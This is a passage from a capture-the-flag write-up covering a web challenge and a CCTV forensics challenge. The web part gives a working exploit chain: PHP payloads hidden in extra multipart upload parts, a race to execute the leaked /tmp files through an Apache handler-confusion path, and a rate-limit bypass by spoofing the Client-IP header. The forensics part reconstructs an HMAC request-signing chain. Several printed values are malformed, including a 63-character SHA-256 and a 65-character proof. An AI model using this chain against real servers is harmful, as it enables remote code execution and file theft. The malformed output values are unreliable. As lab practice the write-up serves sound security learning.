- `/forge.php` for image uploads.
- `/vault.php` for listing the vault, which is actually `/tmp`.
- `/mark.php` for calculating SHA-1 hashes, which is a distraction because it never returns file contents.

The flag is stored at `/var/www/html/flag.txt`. Four weaknesses form the exploit chain:

1. `forge.php` validates only `$_FILES['image']['tmp_name']`. Extra multipart file parts are ignored by the application-level validation.
2. PHP still creates `/tmp/phpXXXXXX` temporary files for every multipart file part, including the extra parts. They exist until the upload request finishes.
3. `/vault.php` lists `/tmp`, exposing the temporary filenames during that window.
4. Apache maps `/images/` to `/tmp/`, while a rewrite rule assigns the PHP handler to URLs ending in `.php`.

The handler confusion path is:

```text
/images/../tmp/phpXXXXXX/.php
```

Apache resolves it to the temporary file `/tmp/phpXXXXXX`, while the `.php` suffix causes the file contents to execute as PHP.

To widen the race window, I created a valid PNG with approximately 1,900 KiB of padding:

```bash
python3 - <<'PY'
import base64
from pathlib import Path

png = base64.b64decode(
    "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/x8AAwMCAO+a6d8AAAAASUVORK5CYII="
)
Path("race.png").write_bytes(png + b"A" * (1900 * 1024))
PY
```

In Burp Repeater, I kept the legitimate `image` part and added three extra parts before the closing boundary:

```http
Content-Disposition: form-data; name="evil1"; filename="a.bin"
Content-Type: application/octet-stream

<?php echo file_get_contents("/var/www/html/flag.txt"); ?>
```

The `evil2` and `evil3` parts contain the same PHP payload. The race procedure is:

1. Send the upload request without waiting for its response.
2. Immediately poll `GET /vault.php` in another Repeater tab.
3. Find a newly listed name matching `phpXXXXXX`.
4. Immediately request `GET /images/../tmp/phpXXXXXX/.php`.

The request must execute before PHP cleans up the temporary file. A successful race returns:

```text
KMACTF{sk-7fK9mQ2xL8vN4pR6tY1aB3cD5eF7gH9jK2mP4qS6uV8wX0z}
```

### DeepSeek Made Me Do It Revenge

The revenge version preserves the entire original exploit chain. It only adds a one-request-per-second rate limit and shorter input windows:

```php
$ip = $_SERVER['REMOTE_ADDR'];
$rate_file = $rate_dir . '/rate_' . md5($ip);
if (file_exists($rate_file) && (time() - filemtime($rate_file)) < 1) {
    header($_SERVER['SERVER_PROTOCOL'] . ' 429 Too Many Requests');
    exit;
}
@touch($rate_file);
```

```text
RequestReadTimeout body=1
max_input_time = 1
```

On the challenge instance, the server trusted the attacker-controlled `Client-IP` header as the remote address. Changing that header for each request bypassed the rate limit.

I prepared multiple Repeater tabs with different values:

```text
Upload:  Client-IP: 10.0.0.1
Poll 1:  Client-IP: 10.0.0.2
Poll 2:  Client-IP: 10.0.0.3
Poll 3:  Client-IP: 10.0.0.4
Execute: Client-IP: 10.0.0.5
Retry:   Client-IP: 10.0.0.6
```

The upload still carries the valid PNG and extra PHP parts. After sending it, I cycled through the poll tabs until `/vault.php` disclosed a temporary filename, inserted that name into the execute request, and sent it with a fresh `Client-IP`. If a request returned `429`, the next tab used another address.

The result was:

```text
KMACTF{sk-9f8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d2e1f0a9b8c7d6e5f4a3b2c1d0e9f}
```

## Forensics

### CCTV

#### Identifying the target frame

The supplied screenshots were black, so the useful evidence came from `evidence_manifest.json`, `camera_map.json`, the operator console, and the frame database. These artifacts identify the valid Lab B record as `CAM07`, frame `184273`.



The exact values are:

```text
camera_id       = CAM07
frame_id        = 184273
channel         = 7
local_ts        = 2026-05-19T22:41:06.742+07:00
utc_ts          = 2026-05-19T15:41:06.742Z
sha256          = e5519185b09d389b713bece711673016abf354fac41e5fa841b4b71bc3048322
chain_prev_hash = 99ec4886b095d35a0922e9d43bb71ba65535516c7db5c9b29ed8bde0fcd192c4
```

The v4 evidence request requires:

```text
Authorization
X-KMA-Access-Key
X-KMA-Date
X-KMA-Nonce
X-KMA-Frame-SHA256
X-KMA-Scope
X-KMA-Proof
```

The artifacts provide the credential and access key:

```text
credential = kma@cam07-184273
access_key = KMAOP-CAM07
```

The Authorization header is Basic authentication over `operator:kma@cam07-184273`.

#### Nonce, scope, and signing key

Packet 37 requests:

```text
http://nvr-x7.local/api/v4/challenge
```

Packet 38 returns a fresh nonce. A new nonce must be requested for every signed evidence request.

The scope is:

```text
20260519/CAM07/kma4_evidence/kma4_request
```

An invalid proof produces `E_SIG`. The correct proof is:

```python
proof = hmac.new(
    signing_key,
    string_to_sign.encode(),
    hashlib.sha256,
).hexdigest()
```

The signing key is the fourth value in this HMAC chain:

```python
k0 = HMAC(key=b"KMA4" + secret, msg=b"20260519")
k1 = HMAC(key=k0, msg=b"CAM07")
k2 = HMAC(key=k1, msg=b"kma4_evidence")
k3 = HMAC(key=k2, msg=b"kma4_request")
```

`config_2026_05_19.bak` specifies the `v4-sigchain` gateway and states that the static API secret is stored in `nvr_backup/key_escrow.bin`. The escrow format is AES-256-CBC, with the first 16 ciphertext bytes used as the IV.

The AES key is derived with PBKDF2-HMAC-SHA256. Its passphrase follows:

```text
camera|frame|local_ts|chain-of-custody
```

For this frame, the passphrase components are `CAM07`, `184273`, and `2026-05-19T22:41:06.742+07:00`. The salt is the least-significant 128 bits extracted from the target file as documented by the backup configuration.

Recovery produced:

```text
salt   = a3f7c1d9e2b04856910fad3c7e6b82f5
secret = kma-nvr-v4::evidence::chain::4187::wal
```

Applying the four HMAC rounds yielded:

```text
signing_key = 4bd4a3a150ea46a8ff86f016f10a06903444712b1a15acb9384785e3e61f8bb4
```



#### Canonical request and final evidence request

The canonical request recovered from packet 21 is the direct concatenation below:

```text
GET/api/v4/evidence/snapshotcamera=CAM07&frame=184273&ts=2026-05-19T22%3A41%3A06.742%2B07%3A00e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b85520260519T154106Z
```

Its SHA-256 digest is:

```text
d713830e9a548729e1f8746b5644c74f83f44b917c030f28038eaf795ee95b08
```

The final request uses:

```text
Authorization: Basic <base64(operator:kma@cam07-184273)>
X-KMA-Access-Key: KMAOP-CAM07
X-KMA-Date: 20260519T154106Z
X-KMA-Nonce: <fresh nonce>
X-KMA-Frame-SHA256: e5519185b09d389b713bece711673016abf354fac41e5fa841b4b71bc3048322
X-KMA-Scope: 20260519/CAM07/kma4_evidence/kma4_request
X-KMA-Proof: <HMAC-SHA256 proof>
```

The successful run returned:

```text
nonce=9da6ec382653640db48d923481e811ea
proof=8f72eb47ac2e46995b7e74d5d7c8a20218ecc8fef6d134211f55cacc01c2f63ec
snapshot=/root/Forensics/CCTV/artifacts/verified_snapshot.bin
sha256=d1c48740adaf3de398501c6ef1c948dcdb2b78376f4399b58d0c56b81b00a8b
KMACTF{c4m0n1c4l_pr00f_0f_3v1d3nc3}
```


